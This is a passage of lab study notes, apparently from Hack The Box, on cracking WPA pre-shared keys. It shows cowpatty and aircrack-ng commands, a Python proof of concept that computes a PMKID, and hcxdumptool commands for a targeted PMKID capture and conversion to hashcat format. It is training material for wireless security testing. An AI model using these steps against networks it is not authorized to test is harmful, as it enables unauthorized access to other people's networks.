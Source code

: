 
### Crack the PSK

- **cowpatty:** `cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s HackTheBox`
    
- **aircrack‑ng:** `aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap` → shows `KEY FOUND!` and key material.
    

---

## PMKID Attack (client‑less)

**Concept:** some APs cache **PMKID** (for roaming). You can request/capture PMKID directly from AP and crack offline.

### PMKID math recap (your formulas)

```
PMK = PBKDF2(PSK, ESSID, 4096)
PMKID = HMAC-SHA1-128(PMK, "PMK Name", AP-MAC, STA-MAC)
```

### PMKID PoC (your script)

```python
from pbkdf2 import PBKDF2
import binascii, hmac, hashlib
PSK='VerySecurePassword'; ESSID='HTB-Wireless'
APMac='00:ca:12:11:12:13'; StMac='00:ca:12:12:13:14'
APhex=binascii.hexlify(binascii.unhexlify(APMac.replace(':','')))
SThex=binascii.hexlify(binascii.unhexlify(StMac.replace(':','')))
message = "PMK Name" + str(APhex) + str(SThex)
pmk = PBKDF2(PSK, ESSID, 4096).read(32)
pmkid = hmac.new(pmk, message.encode('utf-8'), hashlib.sha1).hexdigest()
print("PMKID:", pmkid)
```

**Sample output (yours):** `PMKID: a6ddb59f88c8e902...`

### Capture PMKID in the field

- Discover PMKID presence:  
    `hcxdumptool -i wlan0mon --enable_status=3`
    
- Identify BSSID by ESSID:  
    `airodump-ng wlan0mon --essid HTBWireless`
    
- Targeted capture & save:  
    `hcxdumptool -i wlan0mon --enable_status=3 --filterlist_ap=E2:73:E7:F5:98:91 --filtermode=2 -o HTBPMKID.pcap`
    
- Convert to Hashcat format:  
    `hcxpcapngtool -o hash HTBPMKID.pcap`
    
- Inspect the `hash` file (shows WPA* lines as in your example).
    